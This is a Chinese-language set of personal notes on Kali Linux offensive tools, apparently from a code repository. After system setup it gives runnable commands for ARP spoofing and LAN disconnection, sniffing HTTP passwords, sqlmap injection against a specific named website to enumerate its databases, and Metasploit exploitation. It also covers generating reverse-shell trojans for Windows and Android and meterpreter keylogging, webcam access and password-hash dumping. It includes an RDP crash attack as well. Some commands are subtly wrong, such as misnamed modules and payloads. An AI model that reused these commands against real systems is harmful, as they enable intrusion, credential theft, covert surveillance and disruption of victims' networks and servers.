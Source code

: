 ##kali虚拟机常见的问题
在本机和虚拟机间的文件交互
- 
- 安装vmtool
- 先解压
- tar vxzf VMtool
- 然后启动vmware-tools


##kali的系统的更新
更新源
root@icunqiu:~# leafpad /etc/apt/sources.list
出现图形化界面
然后在里面加入阿里和中科的更新源
#中科大kali源
deb http://mirrors.ustc.edu.cn/kali sana main non-free contrib
deb http://mirrors.ustc.edu.cn/kali-security/ sana/updates main contrib non-free
deb-src http://mirrors.ustc.edu.cn/kali-security/ sana/updates main contrib non-free
#阿里云kali源
deb http://mirrors.aliyun.com/kali sana main non-free contrib
deb http://mirrors.aliyun.com/kali-security/ sana/updates main contrib non-free
deb-src http://mirrors.aliyun.com/kali-security/ sana/updates main contrib non-free

root@icunqiu:~# apt-get update

root@icunqiu:~# apt-get dist-upgrade

##kali的系统美化
KDE桌面安装
apt-get install kde-f



##开始使用kali
sqlmap：相当于win下面的名小子，NBSI

##局域网断网攻击也叫arp攻击
工具：arpspoof

指令：arpspoof -i 网卡 -t 目标ip 网关
kali：网卡 eth0
目标：192.168.31.239
默认网关 192.168.1.1

替换掉:arpspoof -i eth0-t 192.168.31.239  192.168.1.1
~# arpspoof -i eth0 -t 192.168.31.22  192.168.1.1

怎么看局域网当中的ip呢？
fping -asg 192.168.31.0/24

为什么断网现象是arp欺骗，却出现断网现象。

出现的错误：
arpspoof: couldn't arp for host
fping -asg 192.168.0.100/24     查看局域网中存活的主机

先ping一下目标主机，看是否ping得通

要攻击需要知到目标ip,网关（网关是啥？）,本机网卡（eth0）。

arpspoof -i eth0 -t 目标IP 网关

 


ps:如果出现arpspoof: couldn't arp for host ，要把虚拟机设置成桥接，或者关闭目标防火墙。


#ARP欺骗
目标的ip 流量会经过我的网卡，从网关出去
（进行ip流量转发）
#ARP断网
目标的ip 流量会经过我的网卡


##进行ip流量转发：
root@icunqiu:~# echo 1 >/proc/sys/net/ipv4/ip_forward
root@icunqiu:~#  vim /proc/sys/net/ipv4/ip_forward
echo ***>/proc/---不会有回显



###driftnet  -》》获取本机网卡的图片
目标的ip他的流量会经过我的网卡 ---》网关
driftnet -i eth0



#http账号密码获取
Arpspoof  -》》欺骗


ettercap----》》欺骗  嗅探 

ettercap -Tq -i eth0
-Tq  启动文本模式
即可监控该ip的http密码



##开启命令行模式
ctrl+alt+f1
/etc/init.d/ssh/  start  开启ssh
然后就可以用xshell连接了


##sststrip
能把https的链接还原为http

端口不一样前者80后者443
http+ssl构建的可进行加密传输





##注入php网站
- sqlmap -u "http://www.tmsyy.com/list.php?fid=3"
- 检测
- 
- 
- sqlmap -u "http://www.tmsyy.com/list.php?fid=3" --is-dba
- 检测是否是dba权限
- 
- sqlmap -u "http://www.tmsyy.com/bencandy.php?fid=168&id=7299" --dbs
- 列出所有的数据库
- 
- sqlmap -u "http://www.tmsyy.com/bencandy.php?fid=168&id=7299" --current-db
- 查询当前表
- 
- sqlmap -u "http://www.tmsyy.com/bencandy.php?fid=168&id=7299" --tables -D "ggec"
- 猜解数据库的表名  根据数据库 


    第一讲.Metasploit框架介绍
    第二讲.Metasploit升级更新
    第三讲.Metasploit端口扫描
    第四讲.Metasploit SMB 获取系统信息
    第五讲.Metasploit 服务识别
    第六讲.Metasploit 密码嗅探
    第七讲.Metasploit SNMP 扫描
    第八讲.Metasploit SMB登陆验证
    第九讲.Metasploit VNC身份识别
    第十讲.Metasploit WMAP Web扫描

##metasploit
输入msfconsole 
- Exploit模块 -》》漏洞利用
- Payloads   -》》shellcode

###使用模块
use exploit/windows/smb/ms08_67_netapi

##选择漏洞利用模块
show options
查看要填入的参数
set RHOST 192.168.31.1
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST selfip
执行：exploit

##metasploit 执行远控
这个有教程：http://www.i0day.com/1173.html

1.根据自己的ip生成一个木马
我们的ip是192.168.102.136
msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.102.136 LPORT=55555 X > abc.exe


2.use exploit/multi/handler
show options
set PAYLOAD　windows/meterpreter/reverse_tcp

使用这个shellcode
LHOST = 192.168.102.136
LPORT = 55555
这里填生成木马的ip和端口




#木马常用功能
background
sessions 1


##注入进程： 木马随时可能被结束
ps：得到我们要注入的进程
Migrate xxx注入
2036 2004 expoler.exe 这个进程是桌面

##远程桌面
Run vnc  开启远程桌面


##木马文件管理功能
- download     
- edit
- cat
- cd
- mkdir
- mv
- rm
- pwd
- upload
- rmdir


##网络及系统操作
Arp                看缓冲表
ifconfig           ip地址网卡 
getproxy           获取代理
netstat            查看端口链接

kill 结束进程
ps  查看进程
reboot 重启
Reg 修改注册表
shell 拿取shell
shutdown 关闭电脑
sysinfo 系统信息

##用户操作和其他功能讲解
enumdesktops    用户登录数目
keyscan_dump
keyscan_start
keyscan_stop
uictl
webcam_chat
webcam_list
webcam_stream
getsystem  获取高权限
hashdump   下载hash密文


##生成android木马
msfpayload android/meterpreter/reverse_tcp LHOST=192.168.102.136 R > Desktop/abc.apk

安装木马 然后开启exploit即可



##服务器蓝屏攻击
DDOS
服务器开启3389
确定目标  ip
MS12 020

我们服务器远程桌面的一个利用模块
auxliary/scanner/rdp/ms12_020_check
扫描主机是否存在漏洞

RHOST R 开头，远程主机 


目的：比ddos来的更直接一些，但是重启就解决了


##拿webshell
msfpayload webshell/meterpreter/reverse_tcp LHOST=192.168.102.136 R > Desktop/web.shell

安装木马 然后开启exploit即可

